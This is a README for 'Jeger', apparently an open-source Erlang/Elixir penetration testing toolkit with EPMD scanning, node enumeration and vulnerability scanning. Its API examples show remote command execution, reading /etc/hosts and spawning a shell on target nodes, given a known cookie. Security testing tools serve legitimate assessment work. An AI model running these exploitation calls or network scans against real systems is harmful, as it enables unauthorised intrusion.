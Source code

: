 # Jeger

Erlang/Elixir node discovery and penetration testing toolkit.

## Features

- **Discovery**: EPMD scanning and node enumeration
- **Fingerprinting**: System info and version detection
- **Vulnerability Scanning**: Security misconfiguration detection
- **Exploitation**: RCE and post-exploitation capabilities

## Build

```bash
rebar3 escriptize
```

## Quick Start

```bash
# Start a test node
erl -sname myapp -setcookie secret123

# Scan for it
./_build/default/bin/jeger -r 127.0.0.1-1

# Scan network range with custom timeout and concurrency
./_build/default/bin/jeger -r 192.168.1.1-254 -t 2000 -c 100
```

Common targets: Phoenix/Elixir apps, RabbitMQ, CouchDB, ejabberd

## API Usage

```erlang
% Start shell
rebar3 shell

% Discovery
{ok, Hosts} = jeger_discovery:discover({"192.168.1.", 1, 254}, #{timeout => 2000, verbose => true}).

% Enumeration
{ok, Info} = jeger_enum:enumerate_node("192.168.1.5", "myapp", secret).

% Vulnerability scanning
{ok, Findings} = jeger_scan:scan_node("192.168.1.5", "myapp", secret).

% Exploitation
{ok, Result} = jeger_exploit:execute_command("192.168.1.5", "myapp", secret, "os:cmd(\"whoami\")").
{ok, Content} = jeger_exploit:read_file("192.168.1.5", "myapp", secret, "/etc/hosts").
{ok, Pid} = jeger_exploit:spawn_shell("192.168.1.5", "myapp", secret).
```

## Testing

```bash
rebar3 eunit
```

## Warning

**For authorized security assessments only.** Unauthorized access is illegal.

## License

Apache-2.0
